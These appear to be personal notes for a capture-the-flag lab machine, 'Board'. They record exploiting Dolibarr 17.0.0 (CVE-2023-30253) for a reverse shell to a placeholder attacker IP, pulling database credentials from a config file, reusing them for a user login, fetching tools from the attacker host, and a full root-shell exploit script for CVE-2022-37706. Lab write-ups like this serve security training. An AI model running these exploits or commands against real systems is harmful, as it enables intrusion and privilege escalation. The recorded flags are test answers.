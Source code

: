 Apache/2.4.41

![[Pasted image 20240914093128.png]]

`[Dolibarr 17.0.0](https://www.dolibarr.org)`

![[Pasted image 20240914093237.png]]

Login web-app:

admin:admin

Exploit for reverse shell

```php
python3 pwn.py http://crm.board.htb admin admin <ATTACKER_IP> <ATTACKER_PORT>
```

https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253?tab=readme-ov-file

**Linpeas**

OS: Linux version 5.15.0-107-generic

Sudo version 1.8.31

Details: https://dirtypipe.cm4all.com/
   Exposure: probable

127.0.0.1:33060
127.0.0.1:3306

larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash

/etc/apache2/sites-available/000-default.conf

https://wiki.dolibarr.org/index.php?title=Configuration_file

```php
find / -type d -name 'conf'
```

```php
/var/www/html/crm.board.htb/htdocs/conf
```

- conf.php
- conf.php.example
- conf.php.old

```php
/var/www/html/crm.board.htb/htdocs/conf/conf.php
```

![[Pasted image 20240918060058.png]]

dolibarr_main_db_user='dolibarrowner';
dolibarr_main_db_pass='serverfun2$2023!!';
dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5'

user: dolibarrowner
pass: serverfun2$2023!!
id: ef9a8f59524328e3c36894a9ff0562b5


```php
mysql -u <USERNAME> -p
```

Login to mysql

```php
mysql -u dolibarrowner -p
```

Pass

```php
serverfun2$2023!!
```

Database management

```php
use dolibarr
```

```php
SHOW DATABASES;
```
- I then exit to see the databases i can connect to

![[Pasted image 20240918061554.png]]

I try the pass with user larissa that i found earlier and get access to the account.

User: larissa
Pass: serverfun2$2023!!

The first flag is in the user home dir:
`32361a475e1717c2bcdab24f07e081e2`

Sorry, user larissa may not run sudo on localhost.

I make my standard hidden directory in /dev/shm/.z0d and start uploading my tools.
- I can just `rm -rf` the hidden directory when finished for easy clean up.

Start transfer server

```php
python3 -m http.server 80
```

Get files

```php
wget <ATTACKER_IP>/linpeas.sh
```

Linpeas results

Sudo version 1.8.31 

Internal ports
- 22
- 3306
- 53
- 33060

SUID

![[Pasted image 20240918063534.png]]

We see that the system runs a program called Enlightenment. What is it?

Essentially, Enlightenment is just a component of a graphical user interface that facilitates user-system interaction. This software manages the launching of apps, windows, as well as files.

This application has root permissions, therefore it can potentially be abused to gain root access.

According to vulnerability databases, this application has a major defect CVE-2022-37706 that permits privilege escalation. Fortunately, the exploit can be found on GitHub.

https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

```php
file /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
```

```php
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c32a8a1b279ba209d1029c51435d64b86ca09b8b, for GNU/Linux 3.2.0, stripped
```

Exploit for CVE-2022-37706

```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```


![[Pasted image 20240918064340.png]]

Final flag
82cc63037aa91a2b6dec4e60ecd2713f

